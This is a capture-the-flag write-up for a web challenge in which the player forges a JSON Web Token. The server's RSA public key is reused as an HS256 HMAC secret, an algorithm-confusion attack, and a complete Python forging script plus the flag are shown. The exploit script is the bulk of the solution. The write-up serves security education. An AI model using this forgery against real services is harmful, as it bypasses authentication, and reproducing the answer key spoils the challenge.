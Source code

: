 # Trudniejszy Bambus
**Category**: web \
**Points**: 200

## Desciption
Jestem już totalnym szefem JWT

## Solution
![](TrudniejszyBambus.png)
This time our attention is cought by them providing us their public key:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1t2d2ASw34yqUkBkU5CO
2BGJcJKc2/hp6xJs6jaWphlR/Ru7p/haAPwEkJ9tNbJ7fAfkt6OSOBDL7lHbwfSL
U68bASnnBVatnvU3Dgs8+bvN2Ojw7ykQvIFEgOfmQQKt1TD967Wmq1OWEEfolHBM
GquY+RV4Wbv5c+qiJhpzHltPSC6OsUNVacUO9S8bpm/OG0YsDA3rQhozbGBVlPnV
/4ZClSIck1kov+/M3o8AKyfmV28udf5jid8hszjCgOBHzqX/RSfkEK772/TtI7jw
YpBBiAgQ5OSm8qvHh0Ixv9XXjxvcaHMsxAbdWxevgnWcDmOUc8ShgZyMpQ5Zz2SK
BQIDAQAB
-----END PUBLIC KEY-----

```
To solve this challenge we use this python script that is simple, great commented so there will be absolutely no problems with understanding it \n
```
{
import hmac
import hashlib
import base64

file=open('id_rsa.pub')
key = file.read()

header = '{"alg": "HS256",\n"typ": "JWT"\n}'
payload = '{"grade": "6",\n"score": 100,\n"iat": 1637095545\n}'

encodedHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodedHeader = str(encodedHBytes, "utf-8").rstrip("=")

encodedPBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodedPayload = str(encodedPBytes, "utf-8").rstrip("=")

token = (encodedHeader + "." + encodedPayload)

sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"),token.encode('utf-8'),hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

print(token + "." + sig)
}
```
Script prints out token that gets us a flag!
## FLAG
flag{asymetryczna_kryptografia_to_ta_lepsza?}